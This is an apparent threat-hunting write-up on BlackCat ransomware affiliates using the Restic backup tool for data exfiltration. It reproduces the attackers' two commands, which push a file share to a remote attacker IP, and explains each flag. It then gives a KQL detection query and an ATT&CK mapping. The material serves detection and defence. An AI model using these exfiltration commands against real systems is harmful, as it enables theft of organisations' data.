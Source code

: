 
# Restic | Data Exfiltration

# Summary:

Restic is an open-source backup tool that supports backing up data to various storage types, including local directories, SFTP servers, and cloud services like Amazon S3, Google Cloud Storage, and Microsoft Azure. Recently, it has been observed in use by the BlackCat Ransomware Affiliates.

## Attribution & Threat Actor
- BlackCat Ransomware Affiliates

## Diagram Overview of Attack/Methods STIX2: 

[STIX Visualizer](https://oasis-open.github.io/cti-stix-visualization/?url=https://raw.githubusercontent.com/CTI-Driven/Advanced-Threat-Hunting-Ransomware-Groups-Affiliates/main/Arsenals/Restic/STIX/Restic.json)

![Diagram Overview of Attack/Methods STIX2](Restic.png) 

## Technical Details:

The threat actor used Restic to perform the data exfiltration. Below are the two primary commands executed by the attacker:

## a) Initializing the Backup Repository
```bash
restic.exe -r rest:http://195.123.226[.]84:8000/ init --password-file ppp.txt
```

- **restic.exe**: The Restic binary used for the backup operation.
- **-r rest:http://195.123.226.84:8000/**: This specifies the backup repository location. The backup data was sent over HTTP to a remote server (`195.123.226[.]84`) running a REST service on port 8000.
- **init**: Initializes a new backup repository at the specified location.
- **--password-file ppp.txt**: The `ppp.txt` file contains the password for accessing the repository. This password file is required to encrypt/decrypt the backup data.

## b) Executing the Data Exfiltration
```bash
restic.exe -r rest:http://195.123.226[.]84:8000/ --password-file ppp.txt --use-fs-snapshot --verbose backup "F:\Shares\<REDACTED>\<REDACTED>"
```

- **backup "F:\Shares\<REDACTED>\<REDACTED>"**: This command backs up the data from the local directory located at `F:\Shares\<REDACTED>\<REDACTED>`.
- **--password-file ppp.txt**: Uses the password file to authenticate to the backup repository.
- **--use-fs-snapshot**: This option enables Restic to leverage the **Volume Shadow Copy Service (VSS)**, which allows it to create backups of files that may be locked by other processes. This is particularly useful for backing up active files that are currently in use.
- **--verbose**: Prints live output during the backup process, providing status updates on the exfiltration process.


## Detection Opportunities (KQL):

```kusto
// Replace "Timestamp" with "TimeGenerated" when running this KQL query in Microsoft Sentinel.
//Comment: A true positive would involve the following:
//-> restic.exe -r rest:http://195.123.226[.]84:8000/ init --password-file ppp.txt
//-> restic.exe -r rest:http://195.123.226[.]84:8000/ --password-file ppp.txt --use-fs-snapshot --verbose backup "F:\Shares\<REDACTED>\<REDACTED>"
//-> Preparing a new repository CommandLine activity using restic
//-> Local: restic init --repo /srv/restic-repo
//-> SFTP: restic -r sftp:user@host:/srv/restic-repo init
//-> REST Server: restic -r rest:http://host:8000/ init
//-> Amazon S3: restic -r s3:s3.us-east-1.amazonaws.com/bucket_name init
//-> Minio Server: restic -r s3:http://localhost:9000/restic init
//-> OpenStack Swift: restic -r swift:container_name:/path init
//-> Wasabi: restic -o s3.bucket-lookup=dns -o s3.region=<OSS-REGION> -r s3:https://<OSS-ENDPOINT>/<OSS-BUCKET-NAME> init
//-> Backblaze B2: restic -r b2:bucketname:path/to/repo init
//-> Microsoft Azure Blob Storage: restic -r azure:foo:/ init
//-> Google Cloud Storage: restic -r gs:foo:/ init
//-> rclone: restic -r rclone:foo:bar init
//Title: Detect the Use of Restic for Backup Repository Initiation and Data Exfiltration.
//QKL Advanced hunting query:
let timeframe = 24hr;
// Detection 1: Traffic related to Restic API HTTP header request
let Restic_API_HTTPRequest = (
    DeviceNetworkEvents
    | where Timestamp >= ago(timeframe)
    | where ActionType == "HttpConnectionInspected"
    | extend AdditionalFields_info = parse_json(AdditionalFields)
    | where  AdditionalFields_info.uri in ("application/vnd.x.restic.rest.v1", "application/vnd.x.restic.rest.v2")
          or AdditionalFields_info.user_agent contains "restic"
);
// Detection 2: Process commands events related to Restic tool that could be used to initiate the backup repository and exfiltration
let Restic_ProcessCommandsEvents = (
    DeviceProcessEvents
    | where Timestamp >= ago(timeframe)
    | where ((ProcessCommandLine has_all (" -r", " :/", " init") or ProcessCommandLine has_all (" --repo", ":/", " init"))
     or ProcessCommandLine has_any (" backup", " init")
     and (   (ProcessCommandLine has_all (" -r", " sftp:"))
           or(ProcessCommandLine has_all (" -r", " rest:http"))
           or(ProcessCommandLine has_all (" -r", " s3:s3.", "amazonaws"))
           or(ProcessCommandLine has_all (" -r", " s3:http"))
           or(ProcessCommandLine has_all (" -r", " swift:"))
           or(ProcessCommandLine has_all (" -r", " b2:"))
           or(ProcessCommandLine has_all (" -r", " azure:"))
           or(ProcessCommandLine has_all (" -r", " gs:"))
           or(ProcessCommandLine has_all (" -r", " gs:"))
           or(ProcessCommandLine has_all (" -r", " rclone:"))
)));
// Combine all detections
let Suspicious_Restic_data_Exfiltration_Activities = (
    union Restic_API_HTTPRequest, Restic_ProcessCommandsEvents
    | summarize arg_max(Timestamp, *) by DeviceId
    | order by Timestamp asc
);Suspicious_Restic_data_Exfiltration_Activities
```

## ATT&CK Techniques:

1. **Exfiltration**
    - **T1048 - Exfiltration Over Alternative Protocol**:  
       The threat actor utilized Restic, an open-source backup tool, to exfiltrate data from a file server by backing up directories over HTTP to a remote server. The tool used the rest backend to store data on a remote REST server. 

## References:
- https://thedfirreport.com/2024/09/30/nitrogen-campaign-drops-sliver-and-ends-with-blackcat-ransomware/#exfiltration
- https://restic.net
